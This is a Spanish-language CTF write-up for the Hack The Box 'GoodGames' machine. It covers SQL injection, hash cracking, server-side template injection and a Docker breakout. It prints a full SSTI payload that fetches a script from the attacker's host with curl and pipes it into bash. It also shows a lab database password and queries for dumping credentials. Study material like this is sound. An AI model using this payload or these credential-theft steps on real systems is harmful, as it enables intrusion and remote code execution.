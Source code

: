 # GoodGames

**Sistema Operativo**: Linux

**Dificultad**: Fácil

**Técnicas Vistas**: SQLI (Error Based) /
Hash Cracking Weak Algorithms /
Password Reuse /
Server Side Template Injection (SSTI) /
Docker Breakout (Privilege Escalation) [PIVOTING]

Te prepara para las **Certificaciones**: eJPT eWPT eCPPTv3 OSCP (Escalada) <br><br>

![goodgames](https://github.com/user-attachments/assets/e503fca8-b7b0-4250-b81c-3c892bb91b89)<br><br>


# Reconocimiento

Utilizando `nmap` vemos los puertos mas comunes<br>
![image](https://github.com/user-attachments/assets/42773b8d-37d2-4fa5-a7fc-3c5d7fd18214)<br>


- `-p-` -> Escanea todos los puertos 
- `-sS` -> escaneo de tipo SYN
- `--open` -> Todos los puertos abiertos
- `--min-rate=5000` -> Manda mínimo 5000 paquetes por segundo
- `-Pn` -> Asume que el host especificado está activo
- `-vvv` -> Aplica triple Verbose 
- `-n` -> Que no aplique resolución DNS
- `-oG allports` -> manda todo a un archivo con nombre de "allports"


Utilizando `nmap` lanzamos los scripts mas comunes.<br>
![image](https://github.com/user-attachments/assets/e728f257-29df-483e-824e-d961d98ee0e1)<br><br>


# Explotación SQL

Ingresamos al Usuario admin<br>
![image](https://github.com/user-attachments/assets/1a5044f3-efd2-4a70-9cd8-999df661995b)<br><br>

En `/etc/hosts` ponemos el subdominio<br>
![image](https://github.com/user-attachments/assets/e56b8b98-fba8-4d2c-90f2-0bc36b97eb05)
<br><br>

Utilizando `burpsuite` mediante una inyección SQL vemos las columnas.<br>
![image](https://github.com/user-attachments/assets/304c0d44-5bae-488e-9e06-4f39e10df260)<br><br>


Encontramos la contraseña de admin cifrada<br>
![image](https://github.com/user-attachments/assets/2321141c-2d30-4806-8821-4b43a36cabf6)<br><br>


Descubrimos la contraseña utilizando `john`.<br>
![image](https://github.com/user-attachments/assets/3e6a045c-43e0-410f-bb7a-e9d9e612821f)<br>
- `-w` -> le indicamos el diccionario a usar.
- `hash` -> Contraseña a crackear.
- `--format=Raw-MD5` -> Formato MD5.<br><br>


# Explotación SSTI

Identificación del campo para el SSTI
![image](https://github.com/user-attachments/assets/48c64ab7-3dbd-41ec-9a36-d5614bf4053e)


## Paso 1

Creo este index.html<br>

![image](https://github.com/user-attachments/assets/5e4a0381-66a3-452f-8722-64872aec2dbd)<br><br>


## Paso 2

Abro servidor Python por el puerto 80<br>

![image](https://github.com/user-attachments/assets/8e288815-ca96-41b5-a83e-91cfe1e7a9b2)<br><br>


## Paso 3

Me pongo en escucha<br>
![image](https://github.com/user-attachments/assets/029a65ce-76a3-43a3-80c5-1e1bcac6ea4d)<br><br>


## Paso 4

Abro el index con `curl` y lo interpreto con `bash`<br>

```
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('curl 10.10.14.33 | bash').read() }}
```
<br><br>

# Escalada de privilegios

Estoy en una montura, por que el usuario augustus no existe en /etc/passwd<br>
![image](https://github.com/user-attachments/assets/434fb5d6-cdb9-4065-8f18-8fd0fd98d486)<br><br>


Detectar puertos abiertos:<br>
![image](https://github.com/user-attachments/assets/a28bac53-19e1-4c0b-a088-906180c14b6b)<br><br>


Creamos script de `bash` para encontrar puertos abiertos, lo convertimos a base64.<br>
![image](https://github.com/user-attachments/assets/598682c9-6583-48b2-9504-064030f03cfc)<br><br>

Vemos el puerto 22 abierto:<br>
![image](https://github.com/user-attachments/assets/79d679fc-86c0-404a-afd6-04a749d30101)<br><br>

Nos conectamos como augustus con la contraseña "superadministrator"<br>
![image](https://github.com/user-attachments/assets/8fed4e6e-7548-4511-a4f0-b6f4e27e66e5)<br><br>

Encontramos las credenciales para la base de datos<br>
![image](https://github.com/user-attachments/assets/63cebcba-c6b2-4784-a286-4bc50090337b)<br><br>

- `  mysql -u 'main_admin' -D 'main' -h 127.0.0.1 -p   `
- `C4n7_Cr4cK_7H1S_pasSw0Rd!`

- `show databases;` -> Nos muestra las bases de datos
- `use main;` -> Para usar una base de datos
- `show tables; ` -> Para ver las tablas
- `describe user;` -> Para ver las columnas
- `select name,password from user;` -> Para ver los datos en name y password

Le hacemos un ataque de fuerza bruta con `john`<br>
![image](https://github.com/user-attachments/assets/6f33f592-f6e3-4a2b-966f-6fb30bfa42a7)<br><br>

Encontramos una contraseña:<br>
![image](https://github.com/user-attachments/assets/2cc3a90d-b2a5-485d-b091-a6f5d28855e0)<br><br>


![image](https://github.com/user-attachments/assets/f9fe19eb-b24d-46fd-a367-9ece07336933)<br><br>

Flag:<br>
![image](https://github.com/user-attachments/assets/e3595a3c-c2ff-44dd-8f80-3d42f816b18c)<br><br>

